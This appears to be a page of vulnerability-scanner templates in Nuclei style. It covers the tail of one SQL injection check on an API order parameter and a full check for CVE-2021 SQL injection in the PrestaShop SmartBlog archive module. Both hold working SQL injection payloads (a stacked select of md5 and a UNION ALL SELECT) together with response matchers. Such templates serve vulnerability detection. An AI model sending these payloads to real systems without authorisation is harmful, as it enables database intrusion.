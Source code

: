 - Method - GET

### URL

- {{BaseURL}}/api/experimental/patternfile?order=id%3Bselect(md5({{num}}))&page=0&page_size=0

### Matchers

**Type - word**

- words
  1. {{md5({{num}})}}
- part - body

**Type - status**

- status
  1. 200

---

# PrestaShop SmartBlog \<4.0.6- SQL Injection

## Description

- PrestaShop SmartBlog by SmartDataSoft \< 4.0.6 is vulnerable to a SQL injection vulnerability in the blog archive functionality.
- severity - critical
- tags - cve,cve2021,prestashop,smartblog,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/module/smartblog/archive?month=1&year=1&day=1%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,(SELECT%20MD5(55555)),NULL,NULL,NULL,NULL,NULL,NULL,NULL--%20-

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. c5fe25896e49ddfe996db7508cf00534
- part - body

---
